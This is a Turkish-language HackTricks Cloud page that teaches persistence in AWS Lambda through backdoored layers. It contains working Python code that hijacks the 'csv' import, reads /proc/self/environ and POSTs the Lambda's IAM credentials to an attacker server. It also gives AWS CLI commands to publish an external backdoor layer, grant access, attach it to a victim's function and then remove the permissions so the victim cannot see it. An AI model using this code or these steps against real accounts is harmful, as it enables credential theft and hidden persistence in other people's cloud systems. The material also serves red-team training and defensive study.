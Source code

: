# AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Bir Lambda katmanı, **ekstra kod** veya diğer içerikleri **içerebilen** bir .zip dosyası arşividir. Bir katman, kütüphaneler, bir [özel çalışma zamanı](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), veri veya yapılandırma dosyaları içerebilir.

Her işlev için **beş katmana kadar** dahil etmek mümkündür. Bir katmanı bir işlevde dahil ettiğinizde, **içerikler yürütme ortamındaki `/opt`** dizinine çıkarılır.

**Varsayılan olarak**, oluşturduğunuz **katmanlar** AWS hesabınıza **özel**dir. Bir katmanı diğer hesaplarla **paylaşmayı** veya katmanı **genel** hale getirmeyi seçebilirsiniz. İşlevleriniz, farklı bir hesap tarafından yayımlanan bir katmanı tüketiyorsa, işlevleriniz **katman silindikten sonra veya katmana erişim izniniz geri alındıktan sonra katman sürümünü kullanmaya devam edebilir**. Ancak, silinmiş bir katman sürümünü kullanarak yeni bir işlev oluşturamaz veya işlevleri güncelleyemezsiniz.

Bir konteyner görüntüsü olarak dağıtılan işlevler katmanları kullanmaz. Bunun yerine, görüntüyü oluşturduğunuzda tercih ettiğiniz çalışma zamanı, kütüphaneler ve diğer bağımlılıkları konteyner görüntüsüne paketlersiniz.

### Python yükleme yolu

Python'un lambda'da kullanacağı yükleme yolu şudur:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Kontrol edin nasıl **ikinci** ve üçüncü **pozisyonlar** **lambda katmanlarının** dosyalarını açtığı dizinler tarafından işgal ediliyor: **`/opt/python/lib/python3.9/site-packages`** ve **`/opt/python`**

{% hint style="danger" %}
Eğer bir saldırgan kullanılan bir lambda **katmanına** **arka kapı** koymayı veya **bir tane eklemeyi** başarırsa ve bu, **yaygın bir kütüphane yüklendiğinde rastgele kod çalıştırıyorsa**, her lambda çağrısında kötü niyetli kod çalıştırabilecektir.
{% endhint %}

Bu nedenle, gereksinimler şunlardır:

* **Kurbanların kodu tarafından yüklenen kütüphaneleri kontrol et**
* **Özel kodu çalıştıracak ve orijinal kütüphaneyi yükleyecek bir lambda katmanı ile proxy kütüphanesi oluştur.**

### Önceden Yüklenmiş Kütüphaneler

{% hint style="warning" %}
Bu tekniği kötüye kullanırken bir zorlukla karşılaştım: Bazı kütüphaneler kodunuz çalıştırıldığında python çalışma zamanında **zaten yüklenmiş** durumda. `os` veya `sys` gibi şeyler bulmayı bekliyordum, ama **hatta `json` kütüphanesi bile yüklüydü**.\
Bu kalıcılık tekniğini kötüye kullanmak için, kodun çalıştırıldığı anda **yüklenmemiş yeni bir kütüphaneyi yüklemesi** gerekiyor.
{% endhint %}

Bu python kodu ile lambda içinde python çalışma zamanında **önceden yüklenmiş kütüphanelerin listesini** elde etmek mümkündür:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Ve bu **liste** (kütüphanelerin `os` veya `json` gibi zaten orada olduğundan emin olun)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Ve bu, **lambda'nın varsayılan olarak yüklediği kütüphaneler** listesidir: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Katmanı Arka Kapısı

Bu örnekte, hedef kodun **`csv`**'yi içe aktardığını varsayalım. **`csv` kütüphanesinin içe aktarımına arka kapı koyacağız**.

Bunu yapmak için, **`/opt/python/lib/python3.9/site-packages`** yolunda **csv** adlı dizini ve içinde **`__init__.py`** dosyasını oluşturacağız.\
Daha sonra, lambda çalıştırıldığında ve **csv**'yi yüklemeye çalıştığında, **`__init__.py` dosyamız yüklenecek ve çalıştırılacaktır**.\
Bu dosya şunları yapmalıdır:

* Yükleme yükümüzü çalıştırmak
* Orijinal csv kütüphanesini yüklemek

Her ikisini de şu şekilde yapabiliriz:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Sonra, bu kodu **`python/lib/python3.9/site-packages/__init__.py`** yolunda bir zip dosyası oluşturun ve bunu bir lambda katmanı olarak ekleyin.

Bu kodu [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) adresinde bulabilirsiniz.

Entegre yük, **ilk kez çağrıldığında veya lambda konteynerinin sıfırlanmasından sonra IAM kimlik bilgilerini bir sunucuya gönderecektir** (kod değişikliği veya soğuk lambda), ancak **aşağıdaki gibi diğer teknikler** de entegre edilebilir:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Harici Katmanlar

**Harici hesaplardan lambda katmanları kullanmanın mümkün olduğunu** unutmayın. Ayrıca, bir lambda, izinleri olmasa bile harici bir hesaptan bir katmanı kullanabilir.\
Ayrıca, bir lambda'nın sahip olabileceği **maksimum katman sayısının 5 olduğunu** unutmayın.

Bu nedenle, bu tekniğin çok yönlülüğünü artırmak için bir saldırgan şunları yapabilir:

* Kullanıcının mevcut bir katmanını arka kapı ile ele geçirmek (hiçbir şey harici değil)
* **Kendi hesabında** bir **katman oluşturmak**, **kurban hesabına** katmanı kullanma erişimi vermek, **katmanı** kurbanın Lambda'sında **yapılandırmak** ve **izinleri kaldırmak**.
* **Lambda**, **katmanı** kullanmaya devam edebilecek ve **kurban**, **katman kodunu indirmek için** kolay bir yol bulamayacaktır (lambda içinde bir rev shell elde etmek dışında)
* Kurban, **`aws lambda list-layers`** ile kullanılan harici katmanları **görmeyecek**. 

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
